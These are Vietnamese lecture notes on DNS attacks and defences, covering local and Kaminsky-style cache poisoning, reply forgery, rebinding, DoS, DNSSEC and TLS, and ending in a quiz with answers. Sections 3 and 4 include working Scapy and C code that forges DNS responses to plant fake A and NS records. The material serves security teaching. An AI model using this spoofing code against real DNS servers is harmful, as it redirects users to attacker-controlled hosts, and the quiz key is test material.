







# L10: Application Layer Security — DNS Attacks

## 1. DNS Protocol — Ôn tập nền tảng

### 1.1 Cấu trúc phân cấp DNS (Domain Hierarchy)

DNS tổ chức không gian tên miền theo cấu trúc cây phân cấp. Mỗi nút trong cây gọi là một **domain** hoặc **subdomain**.

```
ROOT (.)
├── .com
│   ├── google.com
│   └── amazon.com
├── .vn
│   ├── tuoitre.vn
│   └── chinhphu.vn
└── .int
    └── who.int
```

- **ROOT**: Gốc của toàn bộ cây tên miền, ký hiệu là dấu chấm `.`
- **Top-Level Domain (TLD)**: Tầng ngay dưới ROOT, ví dụ `.com`, `.vn`, `.edu`
- **Second-Level Domain (Authoritative)**: Tầng tiếp theo, thường gắn với tổ chức cụ thể, ví dụ `google.com`, `uit.edu.vn`

---

### 1.2 DNS Zone

**DNS Zone** là một đơn vị quản trị trong DNS. Một zone nhóm các domain liên tiếp nhau trên cây DNS và giao quyền quản lý cho một thực thể cụ thể.

**Phân biệt Zone và Domain:**

| Tình huống | Kết quả |
|---|---|
| Domain không có subdomain | Zone = Domain |
| Domain có subdomain, tất cả cùng zone | Zone = Domain |
| Subdomain có zone riêng | Zone ≠ Domain (zone con tách biệt) |

**Ví dụ:** `usa.example.com` có thể chia thành 2 zone:
- Zone 1: chứa `usa`, `chicago`, `boston`
- Zone 2: chứa `nyc`

---

### 1.3 Authoritative Name Server

Mỗi DNS zone có ít nhất một **authoritative nameserver** — máy chủ chứa bản gốc và cung cấp câu trả lời chính thức cho các truy vấn DNS thuộc zone đó.

- **Primary (Master) server**: Lưu trữ bản gốc của tất cả các bản ghi zone.
- **Secondary (Slave) server**: Tự động sao chép và duy trì bản sao đồng nhất từ primary server.

---

### 1.4 DNS Root Servers

- Có **13 logical root nameserver** trên toàn cầu (ký hiệu A đến M), mỗi "server" thực ra là một cụm máy chủ phân tán (anycast).
- Cung cấp thông tin về nameserver của tất cả các TLD.
- Là điểm khởi đầu của mọi truy vấn DNS khi cache cục bộ không có kết quả.
- **ICANN** quản lý root DNS domain.
- Danh sách địa chỉ IP của các root server được lưu trong file hints cục bộ, ví dụ `/etc/bind/db.root`.

---

### 1.5 Các loại TLD

- **Infrastructure TLD**: `.arpa` — dùng cho cơ sở hạ tầng Internet (reverse DNS lookup dùng `in-addr.arpa`)
- **Generic TLD (gTLD)**: `.com`, `.net`, `.org`
- **Sponsored TLD (sTLD)**: `.edu`, `.gov`, `.mil`, `.travel` — do tổ chức tư nhân tài trợ và quản lý điều kiện sử dụng
- **Country Code TLD (ccTLD)**: `.vn`, `.au`, `.fr`
- **Reserved TLD**: `.example`, `.test`, `.localhost`, `.invalid` — dành riêng, không dùng trong thực tế

---

### 1.6 Quá trình phân giải DNS (Iterative Query)



**Bốn loại section trong DNS Response:**

- **Question section**: Mô tả câu hỏi gửi đến nameserver
- **Answer section**: Các bản ghi trả lời trực tiếp câu hỏi
- **Authority section**: Các bản ghi trỏ đến authoritative nameserver
- **Additional section**: Các bản ghi liên quan (thường là địa chỉ IP của nameserver được đề cập)

---

### 1.7 Local DNS Server

- Không thuộc cấu trúc phân cấp chính thức.
- Mỗi ISP, công ty, trường học đều có một local DNS server (còn gọi là "default name server").
- **Lưu cache** kết quả tra cứu để tăng tốc độ và giảm tải. Mỗi bản ghi cache có giá trị **TTL (Time-To-Live)** — khi hết TTL, bản ghi bị xóa.
- Hoạt động như proxy, chuyển tiếp truy vấn vào cấu trúc phân cấp DNS khi cần.

**Các file cục bộ quan trọng:**

| File | Chức năng |
|---|---|
| `/etc/hosts` | Tra cứu tên miền cục bộ trước khi hỏi DNS server |
| `/etc/resolv.conf` | Cung cấp địa chỉ IP của local DNS server cho resolver |

---

## 2. DNS Attacks

### 2.1 Tổng quan các loại tấn công



**DNS Spoofing**: Mục tiêu là cung cấp địa chỉ IP giả cho nạn nhân, lừa họ kết nối đến máy của kẻ tấn công thay vì máy chủ thực sự. Ví dụ: người dùng muốn vào `www.bank32.com` nhưng DNS trả về IP của attacker, trình duyệt kết nối đến web server giả mạo.

---

### 2.2 Tấn công trên máy đã bị xâm nhập (Compromised Machine)

Nếu kẻ tấn công đã có quyền root trên máy nạn nhân:

- **Sửa `/etc/resolv.conf`**: Thay địa chỉ DNS server thành DNS server độc hại. Toàn bộ quá trình DNS đều bị kiểm soát.
- **Sửa `/etc/hosts`**: Thêm bản ghi giả, ví dụ trỏ `www.bank32.com` về IP của attacker. File này được tra cứu trước cả DNS server.

---

## 3. Local DNS Cache Poisoning Attack

### 3.1 Nguyên lý tấn công

Kẻ tấn công nằm trên cùng mạng LAN với local DNS server. Khi local DNS server gửi truy vấn ra ngoài, attacker:
1. **Sniff** (nghe lén) gói truy vấn DNS trên mạng LAN.
2. **Spoof** (giả mạo) phản hồi DNS với IP giả trước khi phản hồi thật đến.



### 3.2 Cấu trúc gói DNS giả mạo

Để spoofing thành công, gói tin giả phải có:
- **Source IP** = IP của DNS server thật (ví dụ: `8.8.8.8`)
- **Destination IP** = IP của local DNS server
- **Source Port** = 53 (cổng DNS)
- **Transaction ID** = ID khớp với truy vấn gốc
- **Flags** = `0x8400` (QR=1 là Response, AA=1 là Authoritative)

### 3.3 Code tấn công với Scapy (Python)

```python
#!/usr/bin/python3
from scapy.all import *

def spoof_dns(pkt):
    if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname.decode()):
        # Xây dựng IP và UDP header, đổi src/dst
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

        # Bản ghi Answer: trả về IP giả cho www.example.net
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname,
                       type='A',
                       rdata='1.2.3.4',
                       ttl=259200)

        # Bản ghi Authority: khai báo nameserver giả cho example.net
        NSsec = DNSRR(rrname='example.net',
                      type='NS',
                      rdata='ns.attacker32.com',
                      ttl=259200)

        # Đóng gói DNS response
        DNSpkt = DNS(id=pkt[DNS].id,
                     qd=pkt[DNS].qd,
                     aa=1, rd=0, qr=1,
                     qdcount=1, ancount=1, nscount=1,
                     an=Anssec, ns=NSsec)

        spoofpkt = IPpkt / UDPpkt / DNSpkt
        send(spoofpkt)

# Sniff các gói UDP từ local DNS server ra ngoài (port 53)
pkt = sniff(filter='udp and (src host 10.0.2.69 and dst port 53)',
            prn=spoof_dns)
```

### 3.4 Kết quả và kiểm tra cache

Sau khi tấn công thành công, cache của local DNS server chứa:
- `www.example.net` → `1.2.3.4` (IP giả)
- `example.net` NS → `ns.attacker32.com` (nameserver giả)

```bash
# Dump cache để kiểm tra
sudo rndc dumpdb -cache
cat /var/cache/bind/dump.db

# Flush cache trước khi tấn công để tránh cache cũ
sudo rndc flush
```

!!! warning "Chiếm toàn bộ domain"
    Bằng cách inject bản ghi NS vào Authority section, attacker không chỉ chiếm một hostname mà **chiếm toàn bộ domain** `example.net`. Mọi truy vấn thuộc `example.net` sau đó sẽ được chuyển đến nameserver của attacker.

---

## 4. Remote DNS Cache Poisoning Attack (Kaminsky Attack)

### 4.1 Thách thức của tấn công từ xa

Khi attacker **không nằm trên cùng LAN**, không thể sniff truy vấn, do đó phải đoán mù hai số ngẫu nhiên:

| Thành phần | Độ ngẫu nhiên | Không gian tìm kiếm |
|---|---|---|
| Transaction ID | 16-bit | 65.536 giá trị |
| Source port | 16-bit | 65.536 giá trị |
| **Kết hợp** | **32-bit** | **~4,3 tỷ giá trị** |

Ngoài ra còn hai thách thức khác:
- **Timing**: Phải gửi spoofed reply trước khi reply thật đến.
- **Cache effect**: Nếu thất bại một lần, reply thật sẽ được cache, attacker phải **chờ TTL hết hạn** rồi mới thử lại.

### 4.2 Ý tưởng thiên tài của Kaminsky

**Vấn đề cốt lõi**: Nếu hỏi cùng một câu hỏi `www.example.com`, khi thất bại, câu trả lời thật sẽ bị cache, không thể hỏi lại ngay.

**Giải pháp của Kaminsky**: Hỏi **một câu hỏi khác mỗi lần** (tên ngẫu nhiên như `twysw.example.com`, `abcde.example.com`...) — câu trả lời về hostname ngẫu nhiên này không quan trọng và không gây cache blocking. Điều quan trọng là nhúng **thông tin giả trong Authority section** để khai báo nameserver của `example.com`.



### 4.3 Tại sao tấn công này hiệu quả?

```
- Mỗi vòng thử: attacker gửi hàng nghìn spoofed packets với Transaction ID ngẫu nhiên
- Vì hỏi tên ngẫu nhiên mới mỗi lần → không có cache blocking
- Chỉ cần 1 lần đoán đúng Transaction ID → Authority section được cache
- Kết quả: toàn bộ domain example.com bị redirect đến ns.attacker32.com
```

### 4.4 Code tạo spoofed response (Python + Scapy)

```python
#!/usr/bin/python3
from scapy.all import *

targetName   = 'twysw.example.com'   # tên ngẫu nhiên, thay đổi mỗi lần
targetDomain = 'example.com'
attackerNS   = 'ns.attacker32.com'
dstIP        = '10.0.2.7'   # Local DNS server
srcIP        = '1.2.3.4'    # Giả vờ là example.com DNS server

ip  = IP(dst=dstIP, src=srcIP)
udp = UDP(dport=33333, sport=53, chksum=0)

Qdsec  = DNSQR(qname=targetName)
Anssec = DNSRR(rrname=targetName,   type='A',  rdata='1.1.1.1',      ttl=259200)
NSsec  = DNSRR(rrname=targetDomain, type='NS', rdata=attackerNS,     ttl=259200)

dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1,
          qdcount=1, ancount=1, nscount=1, arcount=0,
          qd=Qdsec, an=Anssec, ns=NSsec)

Replypkt = ip / udp / dns
with open('ip_resp.bin', 'wb') as f:
    f.write(bytes(Replypkt))
```

### 4.5 Code tấn công bằng C (gửi hàng loạt)

```c
// Tạo tên ngẫu nhiên 5 ký tự mỗi lần
char a[26] = "abcdefghijklmnopqrstuvwxyz";
char name[5];
for (int k = 0; k < 5; k++) {
    name[k] = a[rand() % 26];
}

// Load gói DNS đã tạo sẵn từ file
FILE *f_resp = fopen("ip_resp.bin", "rb");
unsigned char ip_resp[MAX_FILE_SIZE];
int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

// Sửa tên ngẫu nhiên trong gói (offset tại vị trí đã biết)
memcpy(ip_resp + OFFSET_NAME, name, 5);

// Sửa Transaction ID (brute force)
unsigned short id = rand() % 65536;
unsigned short net_order = htons(id);
memcpy(ip_resp + OFFSET_TXID, &net_order, 2);

// Gửi gói
// ... (raw socket send)
```

---

## 5. Reply Forgery từ Malicious DNS Server

### 5.1 Kịch bản tấn công

Kẻ tấn công kiểm soát một domain (ví dụ `attacker32.com`) và là authoritative nameserver của nó. Khi local DNS server truy vấn attacker32.com, attacker có thể nhúng thông tin giả mạo vào **Authority** và **Additional section** của response.

### 5.2 Bộ lọc "Out-of-Zone" — Cơ chế bảo vệ

Local DNS server áp dụng nguyên tắc **out-of-zone rejection**: chỉ chấp nhận thông tin về các domain **thuộc phạm vi quyền hạn** của nameserver đang được hỏi.

**Ví dụ phân tích từng trường hợp:**

=== "Fake data trong Additional Section"

    ```
    QUESTION SECTION:
      www.example.net   IN A
    
    ANSWER SECTION:
      www.example.net   259200  IN A   192.168.0.101   ← hợp lệ
    
    ADDITIONAL SECTION:
      www.gmail.com     259200  IN A   192.168.0.201   ← BỊ HỦY (out-of-zone)
      www.facebook.com  259200  IN A   192.168.0.202   ← BỊ HỦY (out-of-zone)
    ```

    **Kết luận**: Các bản ghi cho `gmail.com`, `facebook.com` không thuộc zone `attacker32.com` nên bị bỏ qua.

=== "Fake data trong Authority Section"

    ```
    QUESTION SECTION:
      www.example.net   IN A
    
    ANSWER SECTION:
      www.example.net   259200  IN A   192.168.0.101
    
    AUTHORITY SECTION:
      example.net       259200  IN NS   ns.example.net    ← ĐƯỢC CHẤP NHẬN (nếu attacker có quyền)
      facebook.com      259200  IN NS   ns.example.net    ← BỊ HỦY (out-of-zone)
    ```

=== "Reply Forgery nâng cao"

    ```
    ANSWER SECTION:
      www.example.net   259200  IN A   192.168.0.101
    
    AUTHORITY SECTION:
      example.net       259200  IN NS   www.facebook.com  ← ĐƯỢC CHẤP NHẬN (tên NS)
    
    ADDITIONAL SECTION:
      www.facebook.com  259200  IN A   192.168.0.201     ← BỊ HỦY (out-of-zone)
    ```

    !!! note "Lưu ý quan trọng"
        Dù bản ghi Additional bị hủy, bản ghi Authority khai báo `www.facebook.com` là NS vẫn được chấp nhận. Local DNS server sẽ **tự đi tra cứu** địa chỉ IP của `www.facebook.com` — và lần tra cứu đó sẽ cho kết quả thật.

### 5.3 Câu hỏi: Additional Records dùng để làm gì?

Additional Records trong DNS response có mục đích giúp DNS resolver **tránh phải tra cứu thêm** cho các hostname được đề cập trong Answer/Authority section. Ví dụ: nếu Authority section khai báo `ns1.example.com` là nameserver, Additional section có thể kèm theo địa chỉ IP của `ns1.example.com` luôn — gọi là **glue records**. Điều này hợp lệ khi `ns1.example.com` cùng zone. Nhưng nếu kẻ tấn công cố tình nhét bản ghi của domain khác vào Additional section, local DNS server sẽ từ chối vì out-of-zone.

---

## 6. Reply Forgery trong Reverse DNS Lookup

### 6.1 Reverse DNS Lookup là gì?

Thay vì hỏi "IP của tên miền X là gì?", reverse lookup hỏi "Tên miền của IP X là gì?". DNS resolver tạo một tên giả dạng `184.171.230.128.in-addr.arpa` (đảo ngược các octet của IP `128.230.171.184`), rồi truy vấn qua cấu trúc phân cấp DNS như bình thường.

### 6.2 Câu hỏi quan trọng: Dùng Reverse DNS để kiểm soát truy cập?

**Câu hỏi**: Có thể dùng hostname thu được từ reverse DNS lookup làm cơ sở cho access control không? (ví dụ: "chỉ cho phép gói tin từ `syr.edu`")

**Phân tích nguy cơ**: Nếu gói tin đến từ máy của attacker, quá trình reverse lookup sẽ hỏi **nameserver của attacker**. Attacker hoàn toàn có thể trả lời với bất kỳ hostname nào — ví dụ `trusted.syr.edu` — khiến hệ thống kiểm soát truy cập bị đánh lừa.

**Kết luận**: **Không nên** dùng reverse DNS lookup làm cơ sở duy nhất cho access control vì nó có thể bị giả mạo bởi attacker kiểm soát nameserver của mình.

---

## 7. DNS Rebinding Attack

### 7.1 Bối cảnh và mục tiêu

**Same-Origin Policy (SOP)** của trình duyệt ngăn chặn JavaScript từ trang web A gọi API của trang web B (khác origin). DNS Rebinding là kỹ thuật **bypass SOP** để tấn công thiết bị nội bộ (ví dụ IoT device) từ bên ngoài.



### 7.2 Cơ chế tấn công DNS Rebinding



**Giải thích**: Vì trình duyệt nghĩ đang giao tiếp với `www.attacker32.com` (cùng origin với trang web đã tải), SOP không chặn. Nhưng thực chất DNS đã "rebind" tên miền đó sang IP của IoT device nội bộ.

### 7.3 Điều kiện để tấn công thành công

- TTL của DNS record phải rất ngắn (để rebinding xảy ra nhanh)
- IoT device không có xác thực mạnh hoặc không kiểm tra `Host` header
- Trình duyệt nạn nhân phải truy cập trang web độc hại

---

## 8. Denial of Service Attacks on DNS

### 8.1 Tấn công Root Servers

Root servers rất **khó tấn công** vì:
- Được phân tán cao (anycast, hàng trăm node vật lý trên toàn cầu)
- Nameserver TLD thường được cache trong local DNS server tới 48 giờ → ngay cả khi root server bị hạ, hầu hết truy vấn vẫn hoạt động bình thường trong thời gian đó
- Cần tấn công liên tục và kéo dài mới thấy tác động đáng kể

### 8.2 Tấn công TLD Servers

- Dễ tấn công hơn root servers.
- TLD lớn (`.com`, `.net`, `.gov`) có hạ tầng mạnh, chịu được DDoS tốt.
- **TLD của quốc gia (ccTLD)** như `.vn`, `.ly` thường có hạ tầng yếu hơn → tấn công thành công có thể làm tê liệt Internet của cả một quốc gia.

### 8.3 Tấn công Authoritative Server của domain cụ thể

**Ví dụ thực tế:**

??? details "UltraDNS (2009)"
    - DNS provider cho Amazon, Walmart, Expedia...
    - DDoS năm 2009 gây gián đoạn dịch vụ khoảng **1 giờ**, đúng 2 ngày trước Giáng sinh.

??? details "Dyn Network (2016)"
    - DNS provider cho CNN, BBC, HBO, PayPal...
    - Nhiều đợt DDoS liên tiếp, được thực hiện qua **botnet IoT** (camera IP, baby monitor...)
    - Gây gián đoạn dịch vụ Internet diện rộng tại Mỹ và châu Âu.

??? details "DNSPod (2009) — Vụ tệ nhất tại Trung Quốc"
    - DNS server của DNSPod (Trung Quốc) bị DDoS, mục tiêu thực sự là `Baofeng.com` (web streaming phổ biến).
    - Khi cache DNS hết hạn, media player của Baofeng không tìm được IP server → do lỗi phần mềm, player liên tục gửi truy vấn DNS với tốc độ cao thay vì chờ.
    - Hàng triệu client tạo ra **làn sóng DNS query khổng lồ**, làm nghẽn mạng China Telecom, ảnh hưởng **20 tỉnh**, được coi là sự cố Internet tệ nhất trong lịch sử Trung Quốc.

---

## 9. Countermeasures — Biện pháp đối phó

### 9.1 DNSSEC (DNS Security Extensions)

DNSSEC là bộ mở rộng cho DNS, cung cấp **xác thực (authentication)** và **kiểm tra tính toàn vẹn (integrity)** cho dữ liệu DNS thông qua chữ ký số.

**Cơ chế hoạt động:**



- Mỗi zone ký số các bản ghi của mình bằng private key.
- **DS record** (Delegation Signer) trong zone cha chứa hash của public key zone con, tạo chuỗi tin cậy từ root.
- Resolver kiểm tra chữ ký → bất kỳ dữ liệu giả mạo nào cũng sẽ **fail kiểm tra chữ ký** và bị từ chối.
- DNS cache poisoning bị vô hiệu hóa hoàn toàn.

### 9.2 TLS/SSL (HTTPS)

TLS/SSL cung cấp một lớp bảo vệ khác, **bổ sung** cho DNSSEC.

**Cơ chế**: Sau khi nhận được IP từ DNS (dù có thể là IP giả), trình duyệt yêu cầu server **chứng minh danh tính** thông qua certificate do Certificate Authority (CA) ký. Server giả mạo không có certificate hợp lệ cho tên miền thật → kết nối bị từ chối.

**So sánh DNSSEC và TLS/SSL:**

| Tiêu chí | DNSSEC | TLS/SSL |
|---|---|---|
| Nền tảng | Public key cryptography | Public key cryptography |
| Chain of trust | DNS zone hierarchy (zone cha xác nhận zone con) | PKI — Certificate Authorities |
| Bảo vệ | Tính toàn vẹn của dữ liệu DNS | Xác thực danh tính server và mã hóa kênh truyền |
| Phạm vi | Lớp DNS | Lớp Transport |

!!! tip "Kết hợp cả hai"
    DNSSEC đảm bảo IP trả về từ DNS là đúng. TLS/SSL đảm bảo server tại IP đó là đúng. Kết hợp cả hai cho bảo mật toàn diện nhất.

---

## 10. Câu trắc nghiệm ôn tập

**Câu 1.** Trong cấu trúc phân cấp DNS, ROOT được ký hiệu là gì?

- A. `@`
- B. `*`
- C. `.`
- D. `#`

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    ROOT là nút gốc của toàn bộ cây tên miền DNS, ký hiệu bằng dấu chấm `.`. Trong thực tế, mọi tên miền đầy đủ (FQDN) đều kết thúc bằng dấu chấm này (ví dụ `www.example.com.`), dù thường bị lược bỏ.

---

**Câu 2.** Top-Level Domain (TLD) nào được phân loại là "Infrastructure TLD"?

- A. `.com`
- B. `.arpa`
- C. `.gov`
- D. `.edu`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `.arpa` là Infrastructure TLD duy nhất, được dùng cho các mục đích kỹ thuật của Internet, bao gồm reverse DNS lookup qua `in-addr.arpa` (IPv4) và `ip6.arpa` (IPv6).

---

**Câu 3.** Có bao nhiêu logical root nameserver trên toàn cầu?

- A. 3
- B. 7
- C. 13
- D. 26

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Có 13 logical root nameserver, ký hiệu từ A đến M. Tuy nhiên, mỗi "server" thực ra là một cụm nhiều máy chủ vật lý phân tán trên toàn cầu thông qua công nghệ anycast.

---

**Câu 4.** Tổ chức nào quản lý root DNS domain?

- A. IETF
- B. IEEE
- C. ICANN
- D. IANA

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    ICANN (Internet Corporation for Assigned Names and Numbers) quản lý root DNS domain. IANA (Internet Assigned Numbers Authority) là một bộ phận chức năng của ICANN, thực hiện các nhiệm vụ kỹ thuật.

---

**Câu 5.** Sự khác biệt chính giữa Primary DNS server và Secondary DNS server là gì?

- A. Primary phục vụ IPv4, Secondary phục vụ IPv6
- B. Primary lưu bản gốc zone records, Secondary duy trì bản sao tự động từ Primary
- C. Primary xử lý truy vấn từ người dùng, Secondary xử lý truy vấn từ DNS server khác
- D. Primary chỉ phục vụ trong giờ hành chính, Secondary phục vụ 24/7

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Primary (master) server lưu trữ bản gốc của tất cả zone records. Secondary (slave) server sử dụng cơ chế zone transfer tự động để duy trì bản sao đồng nhất từ primary, đảm bảo tính dự phòng (redundancy).

---

**Câu 6.** File `/etc/hosts` trên Linux được sử dụng như thế nào trong quá trình phân giải tên miền?

- A. Lưu trữ cấu hình của BIND DNS server
- B. Tra cứu tên miền trước khi hỏi local DNS server
- C. Lưu cache kết quả DNS query
- D. Cấu hình địa chỉ IP của local DNS server

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `/etc/hosts` được tra cứu trước cả DNS server. Nếu tên miền có trong file này, hệ thống dùng luôn địa chỉ IP tương ứng mà không cần hỏi DNS. Đây cũng là lý do tại sao kẻ tấn công có root access có thể sửa file này để redirect tên miền.

---

**Câu 7.** File `/etc/resolv.conf` chứa thông tin gì?

- A. Danh sách các tên miền bị chặn
- B. Địa chỉ IP của local DNS server để resolver sử dụng
- C. Cấu hình DNSSEC
- D. Bảng routing DNS

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `/etc/resolv.conf` cung cấp cho DNS resolver thông tin về địa chỉ IP của local DNS server (nameserver) và search domain. Địa chỉ này thường được cấp phát tự động qua DHCP.

---

**Câu 8.** Trong một DNS response, "Authority section" chứa thông tin gì?

- A. Địa chỉ IP của máy khách gửi truy vấn
- B. Các bản ghi trỏ đến authoritative nameserver
- C. Câu trả lời trực tiếp cho truy vấn
- D. Thông tin xác thực DNSSEC

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Authority section chứa các NS records trỏ đến authoritative nameserver cho domain được hỏi. Khi một nameserver không có câu trả lời trực tiếp, nó trả về Authority section để chỉ cho resolver biết nên hỏi ai tiếp theo.

---

**Câu 9.** TTL (Time-To-Live) trong DNS có vai trò gì?

- A. Xác định thời gian tối đa một gói tin DNS được phép tồn tại trên mạng (số hop)
- B. Xác định thời gian một bản ghi được lưu trong cache trước khi hết hạn và bị xóa
- C. Xác định thời gian chờ tối đa cho một DNS query trước khi timeout
- D. Xác định thời gian sống của một DNS server

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Trong ngữ cảnh DNS, TTL xác định số giây một bản ghi DNS được phép lưu trong cache. Sau khi hết TTL, bản ghi bị xóa và phải được tra cứu lại. Đây là cơ chế kiểm soát "freshness" của dữ liệu DNS.

---

**Câu 10.** Mục tiêu chính của DNS Spoofing attack là gì?

- A. Làm quá tải DNS server khiến nó không phản hồi
- B. Cung cấp địa chỉ IP giả cho nạn nhân, lừa họ kết nối đến máy của kẻ tấn công
- C. Đánh cắp private key của DNS server
- D. Xóa toàn bộ cache của DNS server

??? info "Đáp án & Giải thích"
    **Đáp án: B**

